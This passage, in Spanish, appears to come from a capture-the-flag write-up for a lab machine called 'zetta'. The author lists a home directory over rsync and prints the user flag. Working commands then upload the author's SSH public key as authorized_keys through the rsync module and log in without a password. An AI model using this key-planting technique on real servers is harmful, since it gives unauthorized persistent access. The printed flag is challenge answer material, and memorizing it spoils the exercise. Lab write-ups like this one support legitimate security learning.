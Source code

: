 ```null
rsync -r -6 rsync://roy@zetta:8730/home_roy
****** UNAUTHORIZED ACCESS TO THIS RSYNC SERVER IS PROHIBITED ******

You must have explicit, authorized permission to access this rsync
server. Unauthorized attempts and actions to access or use this 
system may result in civil and/or criminal penalties. 

All activities performed on this device are logged and monitored.

****** UNAUTHORIZED ACCESS TO THIS RSYNC SERVER IS PROHIBITED ******

@ZE::A staff

This rsync server is solely for access to the zetta master server.
The modules you see are either provided for "Backup access" or for
"Cloud sync".


Password: 
drwxr-xr-x          4,096 2021/09/08 10:02:34 .
lrwxrwxrwx              9 2019/07/27 10:57:06 .bash_history
-rw-r--r--            220 2019/07/27 07:03:28 .bash_logout
-rw-r--r--          3,526 2019/07/27 07:03:28 .bashrc
-rw-r--r--            807 2019/07/27 07:03:28 .profile
-rw-------          4,752 2019/07/27 09:24:24 .tudu.xml
-r--r--r--             33 2023/02/22 14:06:08 user.txt
drwx------          4,096 2021/09/08 10:02:34 .gnupg
drwx------          4,096 2021/09/08 10:02:34 .gnupg/private-keys-v1.d
```

Puedo ver la primera flag

```null
cat user.txt
19cea4b862bb02edc4a3dec823e0f6bf
```

Para ganar acceso subo mi clave pública de SSH a la máquina víctima a través del ```rsync```

```null
mkdir .ssh
cd .ssh
cat ~/.ssh/id_rsa.pub > authorized_keys
chmod 600 authorized_keys
```

```null
rsync -r .ssh -6 rsync://roy@zetta:8730/home_roy
```

Me conecto sin proporcionar contraseña

```null
ssh roy@zetta
The authenticity of host 'zetta (dead:beef::57a:71c:23:77a)' can't be established.
ED25519 key fingerprint is SHA256:7CpQVo0NRhGYfDeknxjt4wNqj/l7nYxaWW8mUOd/xU0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'zetta' (ED25519) to the list of known hosts.
Linux zetta 4.19.0-5-amd64 #1 SMP Debian 4.19.37-5+deb10u1 (2019-07-19) x86_64
Last login: Wed Sep  8 06:06:31 2021 from 10.10.14.15
roy@zetta:~$ 
```
